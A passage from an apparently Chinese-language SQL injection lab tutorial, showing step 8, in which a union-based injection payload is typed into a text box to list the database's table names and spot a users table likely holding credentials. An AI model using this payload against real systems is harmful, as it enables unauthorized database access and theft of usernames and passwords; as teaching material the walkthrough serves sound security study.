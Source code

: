    ![img](../../img/15617950538643.jpg)

   图 5-12

   

8. 在文本框输入 `1' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`，原第二个字段处显示当前数据库中的所有表名。发现 `guestbook` 表和 `users` 表，`users` 表中极有可能是记录用户名和密码的表，如图 5-13

   
